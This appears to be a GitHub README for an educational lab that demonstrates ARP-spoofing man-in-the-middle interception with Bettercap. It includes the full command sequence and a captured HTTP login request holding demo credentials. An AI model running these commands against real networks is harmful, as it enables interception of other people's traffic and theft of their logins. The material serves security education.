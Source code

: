 # ARP-MITM-Bettercap
> ⚠️ **Disclaimer**: This project is for educational purposes only. Do **not** perform these actions on networks you do not own or have explicit permission to test. Unauthorized access is illegal.

## 🎯 Objective

The main objective of our project is to demonstrate Man-in-the -Middle attack using ARP spoofing. This includes capturing unencrypted http packet through traffic sniffing and storing the log in a file for further use which include security risk associated with such attacks on unsecured networks.   


## LAB SET-UP
### 💻 Attacker Machine

**OS**: Kali Linux 2024.1  

**Tool Used**: Bettercap  

**IP Address**: 192.168.1.5  

**Role**: Perform ARP spoofing, sniff HTTP traffic

### 🖥️ Victim Machine

**OS**: Ubuntu or Windows 10   

**Browser**: Firefox / Chrome  

**IP Address**: 192.168.1.10  

**Role**: Target of the attack, visiting HTTP websites

### 🌐 Network Setup

**Type**: Bridged Adapter (VirtualBox)  

**Interface**: `eth0` (for attacker)  

**Same Local Network**: Yes ✅   

  Check your network  interface:  
  ```bash
  ip a
  ```
  Check your Default gateway:(victim)
  ```bash
  ip route
  ```
Install **Bettercap** if not already installed:

```bash
 sudo apt update
 sudo apt install bettercap
 ```

1. **Start Bettercap and save logs in a file:**
    ```bash
    sudo bettercap -iface eth0 | tee <Name of the file>.txt
    ```

2. **Scan Network:**
    ```bash
    net.probe on
    ```
    ### Observing Output
    ``` output
    192.168.1.0/24 > 192.168.1.5  » net.probe on
    [10:09:18] [sys.log] [inf] net.probe starting net.recon as a requirement for net.probe
    192.168.1.0/24 > 192.168.1.5  » [10:09:18] [sys.log] [inf] net.probe probing 256 addresses on 192.168.1.0/24
    192.168.1.0/24 > 192.168.1.5  » [10:09:18] [endpoint.new] endpoint fe80::xxxx:xxxx:xxxx:xxxx detected as **AA:BB:CC:DD:EE:01** (Generic Device Vendor)
    192.168.1.0/24 > 192.168.1.5  » [10:09:18] [endpoint.new] endpoint 192.168.1.10 detected as **AA:BB:CC:DD:EE:02** (Generic Device Vendor)
```

net.show
```
### Observing Output
```output
192.168.1.0/24 > 192.168.1.5  » net.show

┌────────────────────────────┬────────────────────┬─────────────────┬──────────────────────────────────────────────┬───────┬───────┬──────────┐
│           IP ▴             │        MAC         │      Name       │                    Vendor                    │ Sent  │ Recvd │   Seen   │
├────────────────────────────┼────────────────────┼─────────────────┼──────────────────────────────────────────────┼───────┼───────┼──────────┤
│ 192.168.1.5                │ AA:BB:CC:11:22:33   │ eth0            │ PCS Systemtechnik GmbH                       │ 0 B   │ 0 B   │ 10:09:11 │
│ 192.168.1.13               │ DD:EE:FF:44:55:66   │ gateway         │                                              │ 695 B │ 477 B │ 10:09:11 │
│                            │                    │                 │                                              │       │       │          │
│ fe80::xxxx:xxxx:xxxx:xxxx  │ FF:AA:CC:77:88:99   │ LAPTOP-USER     │ CLOUD NETWORK TECHNOLOGY SINGAPORE PTE. LTD. │ 0 B   │ 0 B   │ 10:09:20 │
│ 192.168.1.10               │ 11:22:33:44:55:66   │                 │ PCS Systemtechnik GmbH                       │ 120 B │ 92 B  │ 10:09:20 │
└────────────────────────────┴────────────────────┴─────────────────┴──────────────────────────────────────────────┴───────┴───────┴──────────┘
```

3. **Set Victim IP:**
    ```bash
    set arp.spoof.targets 192.168.1.10
    ```

4. **Launch Attack:**
    ```bash
    arp.spoof on
    http.proxy on
    net.sniff on
    ```

5. **Ask the victim to visit a non-HTTPS site** (for demonstration):
    ```bash
    http://testphp.vulnweb.com/login.php
    ```

6. **Captured Output:**
### Observing Output
  
    192.168.1.0/24 > 192.168.1.5  » [10:10:36] [net.sniff.http.request] http 192.168.1.10 POST testphp.vulnweb.com/userinfo.php                                                                                              POST /userinfo.php HTTP/1.1
          Host: testphp.vulnweb.com
          Origin: http://testphp.vulnweb.com
          Connection: keep-alive
          Upgrade-Insecure-Requests: 1
          Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
          Accept-Encoding: gzip, deflate
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 23
          Priority: u=0, i
          User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:141.0) Gecko/20100101 Firefox/141.0
          Accept-Language: en-US,en;q=0.5
          Referer: http://testphp.vulnweb.com/login.php

          uname=demoUser&pass=demoPass

    
   7.**see the output**
   ```bash
   cat <Name of the file>.txt
  ```
